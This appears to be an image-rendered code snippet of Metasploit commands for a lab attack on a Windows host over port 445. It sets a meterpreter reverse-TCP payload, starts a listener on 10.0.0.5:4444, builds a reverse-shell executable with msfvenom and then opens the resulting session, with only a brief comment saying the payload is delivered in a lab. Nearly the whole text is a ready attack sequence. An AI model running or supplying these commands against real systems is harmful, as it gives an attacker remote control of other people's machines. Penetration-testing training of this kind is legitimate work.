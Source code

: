 ```text
set RPORT 445
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444

# Start handler (in separate msfconsole tab/session or as background job)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j

# Generate payload (attacker)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o /tmp/rev_shell.exe

# Deliver payload in lab (method depends on allowed vector)
# After execution on target, monitor handler and interact:
sessions -l
sessions -i 1
```


---
